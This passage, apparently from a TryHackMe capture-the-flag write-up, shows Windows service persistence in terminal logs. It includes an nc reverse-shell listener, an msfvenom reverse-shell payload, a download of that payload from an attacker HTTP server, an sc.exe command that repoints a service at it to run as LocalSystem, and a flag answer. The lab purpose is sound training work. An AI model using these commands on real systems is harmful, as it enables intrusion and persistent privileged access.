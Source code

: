```
        PID                : 3312
        FLAGS              :

┌──(kali㉿kali)-[~/payloads]
└─$ nc -nvlp 4448                                          
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4448
Ncat: Listening on 0.0.0.0:4448
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:49919.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\flags
cd C:\flags

C:\flags>.\flag7.exe
.\flag7.exe
THM{SUSPICIOUS_SERVICES}

```


Insert flag7 here
*THM{SUSPICIOUS_SERVICES}*

```
┌──(kali㉿kali)-[~/payloads]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=5558 -f exe-service -o rev-svc2.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc2.exe
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.170.100 - - [11/Sep/2022 17:08:15] "GET /rev-svc2.exe HTTP/1.1" 200 -

PS C:\Users\Administrator> cd C:\Windows
PS C:\Windows> wget http://10.11.81.220:1337/rev-svc2.exe -o rev-svc2.exe

C:\Users\Administrator>sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : NT AUTHORITY\Local Service

C:\Users\Administrator>sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
[SC] ChangeServiceConfig SUCCESS

C:\Users\Administrator>sc.exe qc THMservice3
```